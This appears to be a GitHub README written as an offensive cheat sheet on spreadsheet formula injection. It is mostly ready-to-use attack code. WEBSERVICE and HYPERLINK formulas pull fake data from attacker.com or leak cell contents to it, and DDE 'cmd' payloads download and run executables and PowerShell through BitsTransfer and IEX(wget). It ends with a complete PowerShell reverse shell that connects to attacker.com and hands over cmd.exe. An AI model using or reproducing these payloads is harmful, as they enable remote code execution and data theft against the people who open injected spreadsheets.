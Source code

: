 Useful Links
---------------------------------------------
https://www.notsosecure.com/data-exfiltration-formula-injection/

Use Webservice Formula to Inject fake data into Speadsheet
----------------------------------------------------------
In cell "A1" enter the following - Could be "First Name" in web form
=WEBSERVICE("http://www.attacker.com")

Run attacking server
php -S www.attacker.com:80

On attacking server create "index.html" with content you want to change the "fake data" too.
```
############ Begin index.html ##################################
Fake Data
############ End index.html ####################################
```
To fill in multiple cells use multiple html file
```
=WEBSERVICE("http://www.attacker.com/al.html")
############ Begin a1.html ##################################
Fake
############ End a1.html ####################################
```
```
=WEBSERVICE("http://www.attacker.com/a2.html")
############ Begin a2.html ##################################
Data
############ End a2.html ####################################
```

Use Hyperlink formula to send data to attacking server
------------------------------------------------------
```
# This will send the data from cells "C2" and "D2" to the attackers server using the GET method. 
=HYPERLINK("http://www.attacker.com?leak="&C2&D2,"Please click for further information")
```

Execute content when the spreadsheet loads
------------------------------------------------
```
# Works with any payload, will open associated extension or run exe, bat, etc....
=cmd|'/C powershell Import-Module BitsTransfer;Start-BitsTransfer -source http://xxx.xxx.xxx.xxx/index.jpeg;Start-Process index.jpeg'!A0
=cmd|'/C powershell Import-Module BitsTransfer;Start-BitsTransfer -source http://xxx.xxx.xxx.xxx/ps.bat;Start-Process ps.bat'!A0
```


Another example to use when the form size is limited
------------------------------------------------
```
# Will download powershell from attackers server and execute it
=cmd|' /C powershell IEX(wget 10.5.21.41/p.ps1)'!A0

function cleanup {
if ($client.Connected -eq $true) {$client.Close()}
if ($process.ExitCode -ne $null) {$process.Close()}
exit}
$address = 'www.attacker.com'
$port = '80'
$client = New-Object system.net.sockets.tcpclient
$client.connect($address,$port)
$stream = $client.GetStream()
$networkbuffer = New-Object System.Byte[] $client.ReceiveBufferSize
$process = New-Object System.Diagnostics.Process
$process.StartInfo.FileName = 'C:\\windows\\system32\\cmd.exe'
$process.StartInfo.RedirectStandardInput = 1
$process.StartInfo.RedirectStandardOutput = 1
$process.StartInfo.UseShellExecute = 0
$process.Start()
$inputstream = $process.StandardInput
$outputstream = $process.StandardOutput
Start-Sleep 1
$encoding = new-object System.Text.AsciiEncoding
while($outputstream.Peek() -ne -1){$out += $encoding.GetString($outputstream.Read())}
$stream.Write($encoding.GetBytes($out),0,$out.Length)
$out = $null; $done = $false; $testing = 0;
while (-not $done) {
if ($client.Connected -ne $true) {cleanup}
$pos = 0; $i = 1
while (($i -gt 0) -and ($pos -lt $networkbuffer.Length)) {
$read = $stream.Read($networkbuffer,$pos,$networkbuffer.Length - $pos)
$pos+=$read; if ($pos -and ($networkbuffer[0..$($pos-1)] -contains 10)) {break}}
if ($pos -gt 0) {
$string = $encoding.GetString($networkbuffer,0,$pos)
$inputstream.write($string)
start-sleep 1
if ($process.ExitCode -ne $null) {cleanup}
else {
$out = $encoding.GetString($outputstream.Read())
while($outputstream.Peek() -ne -1){
$out += $encoding.GetString($outputstream.Read()); if ($out -eq $string) {$out = ''}}
$stream.Write($encoding.GetBytes($out),0,$out.length)
$out = $null
$string = $null}} else {cleanup}}
```
